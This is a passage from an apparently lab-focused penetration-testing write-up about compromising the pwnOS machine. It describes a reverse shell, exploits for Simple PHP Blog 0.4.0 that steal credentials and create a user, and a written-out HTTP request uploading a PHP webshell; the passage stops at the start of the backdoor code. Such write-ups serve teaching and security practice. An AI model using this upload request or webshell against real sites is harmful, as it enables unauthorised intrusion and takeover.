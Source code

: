 Then the attacker would try to execute payload to get full bash reverse tcp shell. The machine has python install. After executing python payload the attacker gets netcat reverse shell.


![SQLmap](../master/static/pwnos_reverse.jpg)


The remote code execution vulnerability was found on the system, but to found other vulnerabilities that attacker can use to compromise the system, blogging functionality has to be examined. This is how main page looks like:

![BLOG](../master/static/pwnos_blogmain.jpg)

After inspecting the source. The attacker found the metadate exposing the version of software running in the backend.

```
	<!-- Meta Data -->
		<meta name="generator" content="Simple PHP Blog 0.4.0" />
	<link rel="alternate" type="application/rss+xml" title="Get RSS 2.0 Feed" href="rss.php" />
	<link rel="alternate" type="application/rdf+xml" title="Get RDF 1.0 Feed" href="rdf.php" />


```

Short reserach reveleaved that this verison of Simple PHP Blog is has got following vulnerabilities discovered CVE: 2005-2787 2005-2733 2005-2192. The vulnerabilities has public exploits which has been tested to prove exploitation.

![BLOG](../master/static/pwnos_blogexp1.jpg)

The exploit one retrived the secrets (login and password) of current user. Second exploit will create the user with credentials patryk/patryk

![BLOG](../master/static/pwnos_blogexp2.jpg)

Since, the attacker control the valid user. He will try to login for further testing. There was an interesting image upload functionallity.


![BLOG](../master/static/pwnos_blogimage.jpg)

The attacker sent the webshell code instead of uploading the file.

```
POST /blog/upload_img_cgi.php HTTP/1.1
Host: 10.10.10.100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.100/blog/upload_img.php
Cookie: my_id=nkgdfc292mqp70d0l6h7l4mr15; PHPSESSID=nkgdfc292mqp70d0l6h7l4mr15
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------15399745232994810791041763695
Content-Length: 561

-----------------------------15399745232994810791041763695
Content-Disposition: form-data; name="userfile"; filename="webshell.php"
Content-Type: application/x-php

<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
```